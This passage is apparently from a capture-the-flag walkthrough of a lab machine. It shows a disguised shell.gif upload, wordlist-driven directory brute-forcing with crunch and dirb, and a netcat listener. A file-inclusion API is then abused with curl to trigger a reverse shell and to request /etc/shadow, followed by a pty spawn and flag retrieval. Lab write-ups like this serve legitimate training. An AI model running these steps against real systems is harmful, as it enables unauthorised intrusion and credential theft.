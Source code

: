 ```txt
File is an image - image/gif.The file shell.gif has been uploaded to my uploads path.
```

`my uploads path`... I think something contain word `frank` and `upload` ?, we'll try to generate a dictionnary with crunch which contain theses words and try with dirb.

    $ crunch 5 15 -p frank upload > probe-url.txt
    $ crunch 5 15 -p FRANK upload >> probe-url.txt
    $ crunch 5 15 -p frank UPLOAD >> probe-url.txt
    $ crunch 5 15 -p frank uploads > probe-url.txt
    $ crunch 5 15 -p FRANK uploads >> probe-url.txt
    $ crunch 5 15 -p frank UPLOADs >> probe-url.txt

    $ dirb http://192.168.2.180/development/uploader ./probe-url.txt -u $(cat info)

```txt
==> DIRECTORY: http://192.168.2.180/development/uploader/FRANKuploads/
```

Well it's a bit of luck here lol. So our `shell.gif` is present, now, we start netcat to listen:

    $ nc -lnvp 1234

And we activate the shell. The file `passwd` than we found above reveal the path `/var/www` and we have the rest (`/development/uploader/FRANKuploads/`): 

    $ curl -X POST -d "file=/var/www/development/uploader/FRANKuploads/shell.gif" http://192.168.2.180:8011/api/files_api.php

And we have to execute this shell using the development site in command line.

    $ curl -X POST -d "file=/etc/shadow" http://192.168.2.180:8011/api/files_api.php

```txt
connect to [192.168.2.143] from (UNKNOWN) [192.168.2.180] 50186Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
 08:14:44 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
```
We change the shell with /bin/bash

    $ python -c 'import pty; pty.spawn("/bin/sh")'

First thing to do is search a flag :)

    $ find / 2>/dev/null | grep -i flag

Nothing :-( maybe something into user dir... 

    $ cd /home/frank
    $ cat user.txt
    4795aa2a9be22fac10e1c25794e75c1b
    $ cat PE.txt
    Try it as fast as you can ;)

    $ uname -a 
    Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
